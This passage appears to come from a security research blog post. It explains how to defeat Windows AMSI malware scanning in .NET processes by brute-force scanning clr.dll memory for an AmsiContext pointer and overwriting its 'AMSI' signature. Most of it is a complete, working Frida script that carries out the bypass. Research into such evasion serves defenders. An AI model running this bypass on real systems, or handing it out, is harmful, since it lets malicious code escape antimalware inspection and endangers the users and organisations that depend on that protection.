 We're not sure exactly where *clr.dll* (which is the Common Language Runtime that manages the .NET runtime environment) invokes and uses AMSI functionality, but it's a pretty good bet that there's a global variable somewhere that contains an *AmsiContext* object. If that is indeed the case, there will be a pointer to it somewhere in the memory ranges allocated to *clr.dll*.

A bruteforce approach to this problem begins to emerge:

1. Enumerate all of the readable and writable memory ranges allocated for *clr.dll*.
2. Scan each of those memory ranges for valid pointers to the heap.
3. Read 4 bytes from each pointer and check for the value "AMSI".
4. If you get a hit, corrupt the pointer with a different value.

And here it is, implemented in Frida:

```javascript
function addressIsPtr(ptr) {
	var range = Process.findRangeByAddress(ptr);
	if (range != null && range.protection.includes("r")) {
		return true;
	}
	return false;
}

function scanForPointers(ptr, size) {
	var output = []
	for (var i = 0; i < size; i += Process.pointerSize) {
		var currentPos = ptr.add(i);
		var currentPtr = currentPos.readPointer();
		if (addressIsPtr(currentPtr)) {
			output.push(currentPtr);
		}
	}
	return output;
}


var clr = Process.getModuleByName("clr.dll");
var ranges = clr.enumerateRanges("rw-");

var pointers = []
for (var r of ranges) {
	console.log("Scanning clr.dll memory range starting @ " + r.base);
	var newPointers = scanForPointers(r.base, r.size);
	pointers.push(...newPointers);
}
console.log("Identified " + pointers.length + " valid pointers.");

for (var p of pointers) {
	var signature = p.readCString(4);
	if (signature === "AMSI") {
		console.log("Found 'AMSI' signature @ " + p.toString());
		p.writeByteArray([0x31, 0x33, 0x33, 0x37]);
		console.log("Replaced with '1337'.")
	}
}
```
